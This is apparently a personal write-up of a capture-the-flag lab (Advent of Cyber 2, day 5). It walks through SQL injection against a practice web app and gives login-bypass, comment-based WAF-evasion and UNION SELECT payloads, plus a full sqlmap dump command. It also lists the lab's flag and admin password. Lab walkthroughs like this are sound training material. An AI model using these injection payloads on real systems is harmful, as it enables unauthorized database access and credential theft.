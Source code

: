 # Advent of cyber 2 | day 5 | Someone stole Santa's gift list!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.3.234` it'll probably be diffrent for you.

## Question 1
*Without using directory brute forcing, what's Santa's secret login panel?*

after hading to `http://10.10.3.234:8000/` (like the text above told us) and not seeing anything potentially vulnerable
and after looking at the hint: *The name is derived out of 2 words from this question.*

So I tried:
- /secretpanel
- /secretlogin
- /loginpanel
- /santalogin
- /santasecret

and I finally got it right on:
- /santapanel

I've probably could have guest that the first time by just looking at the length of the answer.

## Question 2
*Visit Santa's secret login panel and bypass the login using SQLi*

No answer needed

We can assume the SQL query looks something like this:
```sql
SELECT username,password FROM users WHERE username='?' and password = '?'
```
The user input goes where there are `?`

I manged to bypass the login form with a simple SQLi: `' or 1=1 --`

So the sql query would look something like this
```sql
SELECT username,password FROM users WHERE username='' or 1=1 --' and password = ''
```
- Note: The challange suggest there's a WAF preventing spaces, but I didn't had this problem in my SQLi
However if they do change it in the future all you need to do is replace every space with a comment:
`' or 1=1 --` -> `'/**/or/**/1=1/**/--`.

## Question 3
*How many entries are there in the gift database?*

again with the same SQLi as before: `' or 1=1 --` I got all the enteries.

I could easily copy the table (Not inculding the headers) into a file i.e giftdb and use `wc` to count the number of lines, like a so:
```bash
cat giftdb | wc -l
```
and so the output is: `22`
- Note: don't forget to put a newline at the end of the last entrey, otherwise `wc` wouldn't count it as a line.

## Question 4
*What did Paul ask for?*

Because we have all the enteries, I just ran:
```bash
cat giftdb | grep -i paul 
``` 
and so the output is: `github ownership`

## Question 5
*What is the flag?*

- Note: I prefer to not use automated tools and so I will try to break in without `sqlmap`.

However I will provide you with the sqlmap command which will lead you to the flag and the admin's password
```bash
sqlmap -p search -r req --tamper=space2comment --dbms sqlite --batch --dump-all
```
- The `req` file is the request I captured with Burpsuite like they showed above. 
---
Moving on I first tried to see if there are really only 2 columns like we can see in the website:

First I Tried to assume how the query looks like:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '?'
```

and so we can try 
```
' ORDER BY 1,2,3 --
```

and the query will look like this
```sql
SELECT gift,kid FROM table WHERE kid LIKE '' ORDER BY 1,2,3 --'
```
And I got a lovely error message telling me:
*3rd ORDER BY term out of range - should be between 1 and 2*
so I know there's only 2 columns.
after that using https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet this handy cheatsheet for sqlite sqli's

I entered:
```
@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --
```

And so the query would look something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT sql,1 FROM sqlite_master WHERE type='table' --'
```
- Note: the `@` is not necessary but for a cleaner output I put a charecter that is not in the gifts database.

And got this:

![Table names](./screenshots/table_names.png)

so we can see there are 3 tables:
- sequels: having a title, kid name, and age so we can understand that's the gift datebase on the website so nothing on intrest here.
- hidden_table: as we are looking for the flag the the table has 1 colunm for flag we can assume it's in there
- users: this might be useful for the sixth question when we are looking for the admin's password 

so with a simple sql query I could see the contents of hidden_table:
```
@' UNION SELECT flag,1 FROM hidden_table --
```

And so the query would something like this:
```
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT flag,1 FROM hidden_table --'
```

![Flag](./screenshots/flag.png)

And so the flag is: `thmfox{All_I_Want_for_Christmas_Is_You}`

## Question 6
*What is admin's password?*

Same as before I will look at the `users` table, like a so:
```
@' UNION SELECT username,password FROM users --
```

And so the query would something like this:
```sql
SELECT gift,kid FROM table WHERE kid LIKE '@' UNION SELECT username,password FROM users --'
```
And I get just a single entry which is the admin's password:

![Admin password](./screenshots/admin_password.png)

And finaly the admin password is: `EhCNSWzzFP6sc7gB`
